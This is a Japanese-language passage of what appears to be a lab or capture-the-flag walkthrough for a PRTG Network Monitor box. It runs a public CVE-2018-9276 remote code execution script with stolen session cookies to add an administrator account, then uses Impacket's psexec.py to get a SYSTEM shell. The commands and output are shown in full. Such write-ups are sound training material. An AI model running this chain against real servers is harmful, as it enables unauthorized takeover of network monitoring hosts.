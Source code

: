 1 つ目を使えたらよかったのですが、version が違いますね。。

色々探していたところ以下の exploit を見つけました。
https://github.com/M4LV0/PRTG-Network-Monitor-RCE

## exploitを使う
適当な名前で上記から `prtg-exploit.sh` をコピペしてきて使用します。

```
kali@kali:~$ chmod 744 prtg-exploit.sh 
kali@kali:~$ ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and add it to the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'                                                                           

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

## shellにつなぐ
kali に入っている `psexec.py` を使用します。

psexec については以下のページが参考になりました。
[PsExecを使ってリモートのWindows PC上のプログラムを実行する](https://www.atmarkit.co.jp/ait/articles/1205/11/news147.html)

```
kali@kali:/usr/share/doc/python3-impacket/examples$ python3 psexec.py pentest:'P3nT3st!'@10.10.10.152
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file HLrJbIWj.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service OZxS on 10.10.10.152.....
[*] Starting service OZxS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>ls
```